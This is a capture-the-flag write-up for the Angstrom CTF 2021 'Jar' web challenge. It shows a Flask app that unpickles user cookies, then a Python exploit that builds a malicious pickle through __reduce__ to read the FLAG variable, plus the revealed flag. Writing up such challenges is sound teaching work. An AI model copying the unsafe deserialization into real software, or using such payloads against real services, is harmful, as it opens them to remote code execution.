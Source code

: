 ```yaml
---
name: Jar (2021)
event: Angstrom CTF 2021
category: Web
description: Writeup for Jar (Web) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Jar

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/c147fBCppb8/0.jpg)](https://youtu.be/c147fBCppb8?t=28s "Angstrom 2021: Jar")

## Challenge Description

> My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

## Source

```py
import base64
import pickle
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
    return send_file('pickle.jpg')

@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response

app.run(threaded=True, host="0.0.0.0")
```

## Solution

#### exploit.py

```py
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        return (os.getenv, ('FLAG',))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

#### print_flag.js

```js
var divs = document.getElementsByTagName("div");
var flag = "";

for (var i = 0; i < divs.length; i++) {
    flag += divs[i].innerText;
}

console.log(flag);
```

Flag: `actf{you_got_yourself_out_of_a_pickle}`
